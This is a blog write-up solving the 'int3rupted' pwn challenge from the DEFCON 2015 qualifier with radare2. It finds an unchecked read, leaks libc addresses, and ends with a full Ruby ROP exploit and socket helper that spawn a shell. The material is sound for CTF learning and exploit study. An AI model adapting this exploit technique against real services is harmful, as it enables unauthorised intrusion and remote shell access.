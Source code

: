 +++
date = "2015-06-04T21:43:59+02:00"
draft = false
title = "Solving 'int3rupted' from defcon 2015 qualifier with r2"
slug = "solving-int3rupted-from-defcon-2015-qualifier-with-r2"
aliases = [
	"solving-int3rupted-from-defcon-2015-qualifier-with-r2"
]
+++
In previous blog posts we've shown how radare2 can be useful for exploiting "baby" level challenges. Let's show how we can use it to find the bug and ultimately exploit a 5 point pwning challenge from the [DEFCON 2015 qualifiers]( https://legitbs.net/ )!

You can find the binary [here]( https://github.com/ctfs/write-ups-2015/blob/master/defcon-qualifier-ctf-2015/pwnable/int3rupted/int3rupted_3bb8f10793b82841c44a366eb9f27223 ) if you want to play along at home.

To start with, in the challenge, we were just given a hostname and ip address, no binary was given! To simulate this, we can use `rarun2` to host the binary locally. The following line will run the binary on port 8888 on connections:
```
rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
```

So, let's try connection with `nc` to try to interact. After some spamming every character, we discover that if you type in `?` a help message is displayed.

```
impactsite ~/int3 » nc localhost 8888
> ?
Help menu:
        g - Begin execution
        db <addr> - Dump bytes at addr
        bp addr - Set breakpoint at addr
        c - Continue from breakpoint.
        ? - This text
>
```

So, now the name `int3rupted` makes sense! The `int3` instruction is defined for use by debuggers to temporarily replace an instruction in a running program in order to set a breakpoint. 

Because this is the binary is not provided, it's going to take some work to find the bug! As we have arbitrary read with `db <addr>` it will just take a bit of work to find the bug.

Checking through the loader script on Linux, amd64, we can see that the elf gets loaded at address `0x400000`, so you can start dumping from there.

```sh
impactsite ~ » cat /usr/lib/ldscripts/elf_x86_64.x | grep SEGMENT_START
  PROVIDE (__executable_start = SEGMENT_START("text-segment", 0x400000)); . = SEGMENT_START("text-segment", 0x400000) + SIZEOF_HEADERS;
  . = SEGMENT_START("ldata-segment", .);
```

![header](/blog/images/elf_header.png)

Although it is a tedious process, you can dump the enough of the binary to load it up in your favorite disassembler.

So, quickly after reversing (which I will leave as an exercise to the reader), a high level overview of the binary is as follows.

- `g` goes to chance game
 - high score lets you write your name into *.bss area*
- `db` dump bytes - we used to dump bin
- `bp` sets breakpoint, write `0xCC` mark page as `R-X` (not `W`!) can’t do this to stack, b/c becomes unwritable :(
- `c` restore from breakpoint
- `?` print help text

Let's look at how int3rupted reads in the user's input. The function takes in a length, a fd to read from, a buffer to write to, and a "stop" character (newline).

![read_user_input](/blog/images/disasm.png)

Oh, what's this?!? The "length" var is increased, but it's termination value is at `length == 0`. This means we have an _unchecked_ read.

Let's have a look at who else calls the `read_user_input` function.

![xrefs](/blog/images/pd2.png)

Can it really be so simple, just a basic stack smash from `main_menu`? There is no `system` called in the binary, and there is *ASLR* activated, but if you recall, we have an arbitrary read, so we can just leak the addresses of libc functions, simple! There isn't even a stack canary to worry about.

Let's use `rabin2` to find the address to read in order to leak the libc function `puts`.

![puts](/blog/images/rabin.png)

Let's just assume that it's on Ubuntu trusty, because all of the other challenges were. Otherwise there are some nice [database tools]( https://github.com/niklasb/libc-database ) to use.

So, from here, there is not much left to do. Just construct an exploit that does the following:

- leak libc address of puts
- compute offset of `/bin/sh\x00` and `system`
- `pop /bin/sh\x00` into `rdi`
- call `system`

Simple, right?

And like magic, we can get a shell! 5 easy points. The final exploit below has comments for the r2 commands to get the needed values (like rop gadgets and offsets).
![shell](/blog/images/shell.png)

```ruby
#!/usr/bin/env ruby
require_relative 'shoe'

# host = "int3rupted_3bb8f10793b82841c44a366eb9f27223.quals.shallweplayaga.me"
# port = 52428

# rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
host = "localhost"
port = 8888

# ubuntu trusty libc
system_offset = 0x00046640 # is~name=system - from libc
binsh_offset = 0x0017ccdb # / /bin/sh\x00 - from libc
puts_offset = 0x0006fe30 # is~name=puts - from libc
exit_offset = 0x0003c290 # is~name=exit - from libc
# from int3rupted binary
poprdirbpret = 0x00401648 # "/R/ pop rdi;ret"
puts_got = 0x00603028 # iR~puts

@s = Shoe.new host, port

def read_menu
  @s.read_til_end 0.1
end

@s.say "?\n"
read_menu
puts "[!] dumping GOT address of puts"
@s.say "db 0x#{puts_got.to_s 16}\n"
str = read_menu
puts str.split(">")[0]
libc_base_addr = (str.split("-")[0].split(":")[1].reverse.split(" ").map{|i| i.reverse}.join("").to_i 16) - puts_offset
puts "[+] libc base is at 0x#{libc_base_addr.to_s 16}"
puts "[+] system is at 0x#{(libc_base_addr + system_offset).to_s 16}"
puts "[+] /bin/sh\\x00 is at 0x#{(libc_base_addr + binsh_offset).to_s 16}"
@s.say ("g\n")
read_menu
rop = "A" * 56
rop << [poprdirbpret].pack("Q") # get /bin/sh into rdi
rop << [libc_base_addr + binsh_offset].pack("Q") # /bin/sh into rdi
rop << "JUNKJUNK" # garbage popped into rbp
rop << [libc_base_addr + system_offset].pack("Q") # system("/bin/sh")
rop << [libc_base_addr + exit_offset].pack("Q") # exit cleanly :)
puts "[!] sending rop chain!"
@s.say "#{rop}\n"
str = read_menu
puts "[*] enjoy your shell"
@s.tie!
```
```ruby
require 'socket'
require 'timeout'
require 'rolling_timeout'

class Shoe < TCPSocket
  def recv_until str
    buf = ""
    until buf.end_with? str do
      buf << self.recv(1)
    end
    buf
  end

  def recv_until_re regex
    buf = ""
    while not regex.match buf
      buf << self.recv(1)
    end
    buf
  end

  def say str
    self.send str, 0
  end

  def read_n_seconds secs
    # requires native threads.
    # doesn't work with ruby 1.8.x or lower
    buf = ""
    begin
      timeout(secs) do
        loop {
          buf << self.recv(1)
        }
      end
    rescue Timeout::Error
    end
    buf
  end

  def read_til_end timeout
    # timeout is time between chars
    buf = ""
    begin
      RollingTimeout.new(timeout) { |timer|
        loop {
          buf << self.recv(1)
          timer.reset
        }
      }
    rescue Timeout::Error
    end
    buf
  end

  def tie!
    # kick off a thread just reading forever
    Thread.new { loop { $stdout.write(self.recv(4096)) } }
    str = ""
    loop {
      ch = $stdin.read_nonblock(1) rescue nil
      if ch == nil
        next
      end
      self.send ch, 0
    }
  end
end
```
